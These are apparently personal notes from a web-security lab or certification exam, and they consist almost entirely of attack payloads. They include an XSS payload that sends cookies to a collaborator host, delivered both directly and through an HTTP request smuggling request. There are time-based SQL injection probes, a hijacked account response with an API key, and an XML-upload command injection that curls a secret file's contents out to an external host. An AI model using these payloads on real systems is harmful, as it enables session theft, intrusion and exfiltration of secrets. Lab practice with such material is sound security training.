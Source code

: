 # Extras  


## 1 - 1  

```
a"/><script>document.location='http://COLABORATOR.com/?abc='+document.cookie;</script>
```

>HTTP request smuggling + XSS + useragent blog comment 

```
POST / HTTP/1.1
Host: TARGET.net
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: Ceop4Tck
Content-Length: 795
Connection: keep-alive

1a
mug9q=x&find=fuzz2&8p7m4=x
0

GET /post?postId=3 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?app='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES

x=1
```

## 1 - 2  

>SQL advance search  injection - fail  

>***not***

```
GET /search_advanced?find='&sortBy=&writer= HTTP/2
```  

```
GET /search_advanced?find='+--+comment&sortBy=DATE&writer= HTTP/2
```

```
GET /search_advanced?find=';SELECT CASE WHEN (1=1) THEN pg_sleep(20) ELSE pg_sleep(0) END--&sortBy=DATE&writer= HTTP/2
```



## 2 - 1  

>password refresh reset  

```
/refreshpassword?temp-forgot-password-token=DdwYXbFEN8ncNktdx2y0OjAKgzghNVoa
```  

## 2 - 2  

>changeEmail js  

```			   
HTTP/2 302 Found
Location: /myaccount
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 173

{
  "username": "carlos",
  "email": "attacker@exploit-0a8a003603011b95c11d5cda01420001.exploit-server.net",
  "apikey": "ZrObR96W6DppZKNGphkBHWMMAtZBZC5Y",
  "roleid": 47
}
```

## 2 - 3  

>XML + OS Command injection  

```
------WebKitFormBoundary 

Content-Disposition: form-data; name="user-import-file"; filename="exam77.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>Jacky22</username>
        <email>james22@exploit-123.exploit-server.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
    </user>
</users>

------WebKitFormBoundary
```

>solution  

